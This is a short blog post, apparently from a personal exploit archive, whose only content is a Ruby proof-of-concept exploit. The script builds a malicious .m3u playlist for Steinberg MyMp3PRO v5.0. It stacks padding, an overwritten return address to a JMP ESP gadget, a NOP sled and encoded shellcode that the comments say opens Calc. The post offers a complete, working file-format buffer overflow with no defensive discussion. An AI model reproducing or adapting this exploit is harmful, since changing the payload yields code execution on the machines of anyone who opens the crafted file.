 title: "Steinberg MyMp3PRO v5.0 Buffer Overflow(改进了下)"
date: 2014-01-06 15:59:59
tags:
id: 467
comment: false
categories:
  - exploit
---

<pre class="brush:py">#!/usr/bin/ruby
print '''

        Steinberg MyMp3PRO v5.0 Buffer Overflow
        Version: 5.0 Build 5.1.0.21
        Date found: 06.1.2014
        Exploit Author:lpcdma 
        Tested on : Win7 X86
'''
sleep(3)
junk="\x41" * 1044
eip=[0x7ffa4512].pack('V')#7ffa4512  JMP ESP kernel32.dll
nops="\x90" * 100 # landing zone
shellcode=("\xba\x50\x3e\xf5\xa5\xda\xd7\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"+
"\x33\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x17\x50\x5f\xa4\x5e"+
"\x9b\x9f\x35\x01\x15\x7a\x04\x13\x41\x0f\x35\xa3\x01\x5d\xb6"+
"\x48\x47\x75\x4d\x3c\x40\x7a\xe6\x8b\xb6\xb5\xf7\x3d\x77\x19"+
"\x3b\x5f\x0b\x63\x68\xbf\x32\xac\x7d\xbe\x73\xd0\x8e\x92\x2c"+
"\x9f\x3d\x03\x58\xdd\xfd\x22\x8e\x6a\xbd\x5c\xab\xac\x4a\xd7"+ # Calc
"\xb2\xfc\xe3\x6c\xfc\xe4\x88\x2b\xdd\x15\x5c\x28\x21\x5c\xe9"+ # \x00\x0a\x0d
"\x9b\xd1\x5f\x3b\xd2\x1a\x6e\x03\xb9\x24\x5f\x8e\xc3\x61\x67"+
"\x71\xb6\x99\x94\x0c\xc1\x59\xe7\xca\x44\x7c\x4f\x98\xff\xa4"+
"\x6e\x4d\x99\x2f\x7c\x3a\xed\x68\x60\xbd\x22\x03\x9c\x36\xc5"+
"\xc4\x15\x0c\xe2\xc0\x7e\xd6\x8b\x51\xda\xb9\xb4\x82\x82\x66"+
"\x11\xc8\x20\x72\x23\x93\x2e\x85\xa1\xa9\x17\x85\xb9\xb1\x37"+
"\xee\x88\x3a\xd8\x69\x15\xe9\x9d\x86\x5f\xb0\xb7\x0e\x06\x20"+
"\x8a\x52\xb9\x9e\xc8\x6a\x3a\x2b\xb0\x88\x22\x5e\xb5\xd5\xe4"+
"\xb2\xc7\x46\x81\xb4\x74\x66\x80\xd6\x1b\xf4\x48\x37\xbe\x7c"+
"\xea\x47")
buffer=junk + eip + nops + shellcode
File.open('BOF_Steinberg_MyMp3PRO_v5.m3u', 'w') do |bug|  
bug.puts (buffer)
bug.close()
end</pre>